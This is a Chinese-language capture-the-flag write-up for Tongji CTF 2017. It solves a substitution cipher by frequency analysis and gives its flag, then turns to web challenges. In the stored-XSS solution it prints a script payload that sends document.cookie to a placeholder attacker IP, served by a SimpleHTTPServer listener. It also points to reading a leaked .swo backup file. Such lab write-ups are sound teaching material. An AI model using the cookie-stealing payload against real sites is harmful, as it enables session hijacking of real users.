 替换密码，26个雨字头的汉字对应26个字母。

词频统计之后可以判断出`靄=e`，然后结合英语语法和密码学里讲过的字母出现频率可以将文章还原出来。

这里向大家说声抱歉，后台设置的flag打错了一个字符导致一开始很多同学没有成功提交flag，后来进行了修复。

flag: tj{substitudeisnotsafe}

### 0x03 Web

#### Web 100 这是一道XinSaiSai的题目

```
题目：某无聊管理员在后台默默窥屏中。千万别输入什么见不得人的东西，他肯定会点开偷偷看哦~

http://10.10.175.209:11001/tj-web01/
```

考查基础的`XSS`知识。

题目其实有提示`XSS`的（`XinSaiSai`），另外题面描述管理员会点开看也是暗示可能存在`存储型XSS`。

首先在一台具有`能够被赛题服务器访问到的IP`的机器上开一个`SimpleHTTPServer`：

```
python -m SimpleHTTPServer 80
```

接着在赛题页面输入用户名如下，密码随意：

```javascript
<script>window.open("http://xxx.xxx.xxx.xxx/" + document.cookie)</script>
```

![]({{ site.url }}/images/TongjiCTF2017wp/web100-xss-login.png)

查看服务器日志：

![]({{ site.url }}/images/TongjiCTF2017wp/web100-xss-flag.png)

如果没有上述服务器，也可以使用在线XSS平台，或者把自己的电脑暂时设置为宿舍路由器的DMZ主机。

(Scripting of Cross Site)

### Web 200 这是一道很难的题目

```
题目：你听说过 PHP 吗？

http://10.10.175.209:11002/
```

考查获取网站备份文件意识及`PHP 0e`安全隐患知识。

右键查看注释之后发现存在一个`tj761306263`的用户名，输入后跳转到`login.php`，提示无法登陆。

![]({{ site.url }}/images/TongjiCTF2017wp/html.jpg)

一番猜测之后发现`login.php`存在一个备份文件可以访问：`http://10.10.175.209:11002/.login.php.swo`
